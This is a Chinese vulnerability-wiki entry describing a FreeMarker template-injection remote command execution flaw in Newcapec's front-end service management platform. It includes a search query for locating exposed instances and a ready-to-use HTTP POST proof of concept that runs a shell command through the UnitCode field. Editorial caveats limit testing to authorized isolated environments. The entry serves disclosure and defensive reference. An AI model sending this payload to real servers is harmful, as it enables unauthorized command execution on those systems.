


# 新开普前置服务管理平台 service.action GetFZinfo UnitCode FreeMarker注入

## 条目说明

- 对象与具体问题：新开普前置服务管理平台；service.action GetFZinfo UnitCode FreeMarker注入
- 版本、配置及部署条件：Windows cmd/Tomcat ROOT目录，版本未知
- 认证与权限前提：无Cookie请求，身份要求未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- FreeMarker Execute构造与命令写Test.txt文本可审，需具体模板配置/类解析权限
- 写文件有覆盖/残留风险，无清理；执行结果仅截图未视检
- 前置服务平台与掌上校园登录标题关系应核产品组件，不按title直接归全校系统
- 补版本/补丁/响应文本

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

### 漏洞影响

新开普 前置服务管理平台

### 网络测绘

```
title="掌上校园服务管理平台"
```

### 漏洞复现

登陆页面


验证POC

```http
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
